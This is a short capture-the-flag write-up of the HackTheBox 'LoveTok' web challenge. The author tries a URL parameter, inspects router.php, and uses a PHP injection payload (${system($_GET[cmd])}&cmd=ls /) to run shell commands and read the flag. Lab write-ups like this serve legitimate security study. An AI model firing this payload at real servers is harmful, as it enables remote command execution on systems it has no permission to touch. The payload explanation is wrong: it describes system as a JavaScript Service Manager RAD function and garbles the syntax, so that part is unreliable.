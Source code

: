 # HackTheBox LoveTok

![Open Lightbox](../assets/lovetok1.webp){ .glightbox .center width="600" }
```
HTB-Challenges:- Web   
Challenge Info:- Web-Application-based challenge   
Challenge level:- Easy
```

---
Started off by downloading the files and starting the machine as soon as the machine started.   
there was an IP followed by a port so it was obvious that that was the only port which is open.   
I didn’t perform any Nmap scan.

again 

![Open Lightbox](../assets/lovetok2.webp){ .glightbox .center width="500" }
there was a flag which is a test flag if you see this don’t get excited.

![Open Lightbox](../assets/lovetok3.webp){ .glightbox .center width="500" }
So I opened the web page there was this fancy page and a Big GIF.

![Open Lightbox](../assets/lovetok4.webp){ .glightbox .center width="500" }
Now I also did a directory brute force bcoz I miss things easily but found nothing but on clicking.   
try again! another link opened up with a parameter.

```URL
http://142.93.32.153:30559/?format=r
```
I tried Linux commands ls and cat to check what happened and as a result, some text was changing

![Open Lightbox](../assets/lovetok5.webp){ .glightbox .center width="500" }
Now I had to look for some way to execute the command so I thought to look into the files downloaded and in a file router.php and found that when we input some text we will be prompted to error.   
what we need here is a web shell so I looked at Google for some payloads and eventually found one that was made for the lab I guess lol.

```bash
${system($\_GET[cmd])}&cmd=ls /
```
now let’s understand how this payload works.

```   
system:- The **system. functions** object allows you to call a particular Service Manager RAD function from JavaScript.  
and GET is an HTTP request   
cmd is used to call the command   
& is used to add another command or object in the parameter  
cmd=ls is basically we used cmd to store ls   
this whole works as our payload
```

![Open Lightbox](../assets/lovetok6.webp){ .glightbox .center width="500" }
This payload works we can see flagmVbY8.

![Open Lightbox](../assets/lovetok7.webp){ .glightbox .center width="500" }
And there we go we got the flag I used cat /flagmVbY8

Thank you for reading



